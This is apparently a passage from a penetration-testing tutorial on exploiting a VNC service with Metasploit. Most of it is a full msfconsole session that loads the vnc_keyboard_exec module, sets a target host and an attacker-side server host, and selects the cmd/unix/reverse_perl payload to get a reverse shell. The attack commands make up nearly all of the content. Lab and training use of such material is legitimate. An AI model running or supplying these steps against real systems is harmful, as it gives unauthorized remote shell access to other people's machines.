 **If we want to get only the remote-cli access, if we don't have a vnc-client**
For that we can use a module called vnc_keyboard_exec
```
msfconsole -q
msf > search vnc_keyboard_exec
msf > use exploit/multi/vnc/vnc_keyboard_exec
msf exploit(multi/vnc/vnc_keyboard_exec) > show options
msf exploit(multi/vnc/vnc_keyboard_exec) > set RHOST 192.168.1.103
msf exploit(multi/vnc/vnc_keyboard_exec) > set SRVHost 192.168.1.101
msf exploit(multi/vnc/vnc_keyboard_exec) > show targets
msf exploit(multi/vnc/vnc_keyboard_exec) > set target 2
msf exploit(multi/vnc/vnc_keyboard_exec) > show payloads
msf exploit(multi/vnc/vnc_keyboard_exec) > set payload cmd/unix/reverse_perl
msf exploit(multi/vnc/vnc_keyboard_exec) > run
```
![](../images/exploiting_vnc_service_using_metasploit_1.png)